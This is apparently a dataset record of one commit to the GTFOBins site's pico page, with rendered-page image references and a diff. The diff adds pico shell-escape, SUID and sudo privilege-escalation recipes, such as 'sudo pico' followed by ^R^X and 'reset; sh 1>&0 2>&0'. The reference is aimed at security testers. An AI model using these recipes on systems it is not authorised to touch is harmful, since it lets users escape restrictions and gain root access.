

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pico.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Fix pico shell, suid, and sudo

```diff
--- a/_gtfobins/pico.md
+++ b/_gtfobins/pico.md
@@ -2,6 +2,11 @@
 functions:
   shell:
     - code: |
+        pico
+        ^R^X
+        reset; sh 1>&0 2>&0
+    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
+      code: |
         pico -s /bin/sh
         /bin/sh
         ^T
@@ -13,7 +18,8 @@ functions:
   file-read:
     - code: pico file_to_read
   suid:
-    - code: |
+    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
+      code: |
         TF=$(mktemp)
         echo '#!/bin/sh -p
         exec sh -p' > $TF
@@ -22,7 +28,7 @@ functions:
         ^T
   sudo:
     - code: |
-        pico -s /bin/sh
-        /bin/sh
-        ^T
+        sudo pico
+        ^R^X
+        reset; sh 1>&0 2>&0
 ---
```
